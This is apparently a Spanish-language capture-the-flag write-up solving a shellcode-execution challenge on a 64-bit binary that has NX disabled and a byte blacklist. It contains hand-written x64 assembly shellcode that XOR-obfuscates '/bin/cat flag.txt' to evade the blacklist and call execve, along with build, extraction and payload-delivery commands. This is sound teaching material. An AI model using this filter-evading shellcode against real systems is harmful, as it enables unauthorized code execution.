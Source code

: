 ## Analisis del Binario
Tenemos un binario ejecutable de 64 bits con el NX desabilitado.

![foto de el binario](/images/bin.png)

Al ejecutar el binario nos recibe con el siguiente mensaje, donde dependiendo nuestra respuesta se acontece un segmentation fault.

'''
Hey, just because I am hungry doesn't mean I'll execute everything
asd
Hehe, told you... won't accept everything
'''

## Analisis del Codigo

Al analizar el codigo vemos que los bytes que introduzcamos son interpretados pudiendo ejecutar instrucciones, sin embargo tambien 
vemos presente una blacklist.

## Explotacion

# Creacion del shellcode
Existen diversas herramientas en la web que nos permiten crear shellcodes, un ejemplo claro tenemos msfvenom, sin embargo la serie de
limitantes que nos ocasiona la estructura del codigo hace dificil el uso de herramientas automatizadas, toca crearlo a mano.

# Instrucciones en ASM-x64

Como estamos en presencia de un binario de 64 bits, nuestro objetivo sera leer el archivo flag.txt, vamos a crearlo.

'''asm
section .text
    global _start

_start:
; ---- Limpiamos el registro RDX, nos servira de separador para las cadenas de texto ----
    mov rdx, r9
    xor rdx,r9

; ---- Insertamos la cadena '/bin/cat' ----
    push rdx                        ; push NULL byte al stack
    mov rbx,0x8b9e9cd091969dd0      ; '/bin/cat' cifrado con xor para bypassear la blacklist
    xor rbx,0xffffffffffffffff      ; desciframos '/bin/cat'
    push rbx
    mov rdi,rsp                     ; RDI -> '/bin/cat'

; ---- Insertamos la cadena 'flag.txt' ---
    push rdx                        ; push NULL byte al stack
    mov rbx,0x8b878bd1989e9399      ; 'flag.txt' cifrado
    xor rbx,0xffffffffffffffff      ; deciframos 'flag.txt'
    push rbx
    mov rsi,rsp                     ; RSI -> 'flag.txt'

; ---- Almacenamos las direcciones y preparamos la pila ---
    push rdx                        ; Null Byte
    push rsi
    push rdi
    mov rsi,rsp                     ; RSI -> ['/bin/cat','flag.txt']

; syscall: execve(const char *pathname, char *const _Nullable argv[],char *const _Nullable envp[]);
    ; rdi: pathname = '/bin/cat'
    ; rsi: args[] = ['/bin/cat flag.txt']
    ; rdx: envp = NULL

; --- Ejecutamos la llamada al sistema ---
    mov al, 60              ; RAX -> execv cuyo valor es [59]
    dec al
    syscall
'''

*Nota: Puedes descargar el archivo sin comentarios [aqui](/exploit/shellcode.asm)*

Una vez listo, debemos ver si no contiene Null bytes y ninguno de los badchars (si seguiste la guia puedes seguir con normalidad).
Compilamos el binario con los siguientes comandos:
'''bash
nasm -f elf64 <filename> -o shellcode.o
ld shellcode.o -o shell
'''
Lo ejecutamos para comprobar que todo este bien...

# Generacion del shellcode
Gracias a la siguiente funcion que tengo programada en mi zshrc se puede exctraer el shell code con facilidad.

'''bash
extractShell () {
	printf '\\x' && objdump -d $1 | grep "^ " | cut -f2 | xargs | tr -d " " | sed 's/.\{2\}/&\\x/g' | head -c-3
	echo
}
'''
Lo copiamos y vamos a la explotacion.

*Puedes agregarlo a tu zsh en la ultima linea*

# Explotacion
Una vez tengamos el shellcode debemos explotar el binario.

'''
echo -n <shellcode> | ./execute
'''

![flag](images/flag.png)

Y listo...
*Nota: [Aqui](/exploit/exploit.py) adjunto una herramienta para la explotacion automatizada*





